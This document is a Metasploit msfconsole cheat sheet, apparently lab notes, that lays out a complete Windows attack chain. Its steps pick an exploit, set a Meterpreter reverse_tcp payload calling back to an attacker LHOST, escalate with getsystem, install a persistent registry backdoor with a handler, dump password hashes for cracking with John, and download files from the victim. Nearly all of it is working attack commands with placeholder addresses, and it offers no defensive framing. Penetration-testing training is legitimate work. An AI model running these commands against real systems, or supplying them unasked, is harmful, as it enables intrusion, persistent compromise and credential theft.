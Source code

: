 Metasploit Msfconsole Gameplay

#################################################Basic Gameplay

#/etc/init.d/postgresql start

#msfconsole

>search type:exploit platform:windows <--Find the appropriate exploit

>use XX

>show options

...

>set XXX XXX

...

>show payloads

>set payload windows/meterpreter/reverse_tcp <--Select a payload

>set LHOST XXX.XXX.XXX.XXX

>set EXITFUNC process

>run <--Exploit

...

meterpreter>getuid

meterpreter>getsystem <--Privilege Escalation

meterpreter>getuid

meterpreter>background

>sessions -l

...

#################################################Install Persistent Backdoor

>use exploit/windows/local/persistence

>show options

...

>set reg_name XXX

>set exe_name XXX

>set startup SYSTEM

>set session 1

>set payload windows/meterpreter/reverse_tcp

>set exitfunc process

>set lhost XXX.XXX.XXX.XXX

>set lport XXXX

>set DisablePayloadHandler false

>exploit <--Install a backdoor. Use exploit -j instead if not working.

...

>use exploit/multi/handler

>set lhost XXX.XXX.XXX.XXX

>set lport XXXX

>set payload windows/meterpreter/reverse_tcp

>exploit -j <--Launch the backdoor client, namely Handler

#################################################Crack Passwords

>sessions -l

>sessions -i 1

meterpreter>hashdump <--Dump the hashes of all accounts as the output. Save the output as a file and use John to crack it.

#################################################Search and Download Files

meterpreter>search -f congrats.txt

meterpreter>download 'c:\Documents and Settings\eLSAdmin\My Documents\Congrats.txt' /root/